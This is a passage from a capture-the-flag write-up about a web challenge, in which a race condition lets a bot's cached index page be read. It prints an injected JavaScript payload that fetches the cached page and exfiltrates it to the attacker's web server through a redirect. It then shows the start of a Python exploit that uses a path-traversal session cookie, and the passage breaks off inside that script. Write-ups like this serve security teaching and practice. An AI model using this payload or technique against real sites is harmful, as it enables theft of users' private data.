 The only alternative way to list the bot files, without having to compromise the `sid` cookie, is to read the contents of the bot index page since that is where the flag location is (the `sid` is the name of the bot's private folder). Unfortunately, once the `index.html` file has been uploaded, it is no longer possible to access this information. 

However, we have identified a race condition during the bot's visit to the shared image. The bot, instead of directly accessing the requested image in the index, first opens the browser in the index page. Thus, during the opening of the browser, the original content of the bot index (where the flag is listed) is cached in the bot browser and we can use the second visit of the bot to make it execute our javascript and exfiltrate the original content of the previously cached index.

These are the steps we have followed to access the bot index and know the location of the flag:

1. We request the bot to visit a file using the share function.
2. The bot opens its browser and visits its legitimate `index` page. (Where the flag location is printed)
3. We upload `index.html` with injected JavaScript code. <-- race condition
4. The bot accesses `/?f={our image location}` and executes the injected JavaScript code.
5. Our JavaScript code retrieves the content of `/` (index) using cache and exfiltrates it to our web server, redirecting the bot to our page.

Below is the JavaScript script that orchestrates the described attack in the bot's browser:

```javascript
<script>
fetch('http://localhost:3000/', { cache: "force-cache" })
  .then(response => response.text())
  .then(text => {
    const index = text.indexOf("modal.show");
    if (index !== -1) {
      const textAfterGallery = text.substring(index + "modal.show".length);
      window.location = "https://{our_web_server}/" + encodeURI(textAfterGallery);
    }
  })
  .catch(error => console.error('Error fetching data:', error));
</script>
```

The use of `{ cache: "force-cache" }` is crucial in this context to force the browser to use the cache when accessing the previously loaded index. Once the script obtains the cached content, it urlencodes it and exfiltrates it to our server through a browser redirection.

# Exploit

This is the script we have used to solve the challenge. The script launches asynchronously 5 times the `/share` functionality for the bot to start its visit to the web page. After waiting a few seconds it executes the request that uploads the `index.html` file with the malicious code. In this way we manage to exploit the race condition that we have explained.

In order to determine the appropriate delays, the time has been progressively increased until the race condition has been successfully exploited.

```python
import aiohttp
import asyncio
import requests

host = "ch16747139502.ch.eng.run"

async def upload():

    print("upload init")
    url = "http://{}/upload".format(host)
    headers = {
        "Cookie": "sid=../public/",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0",
```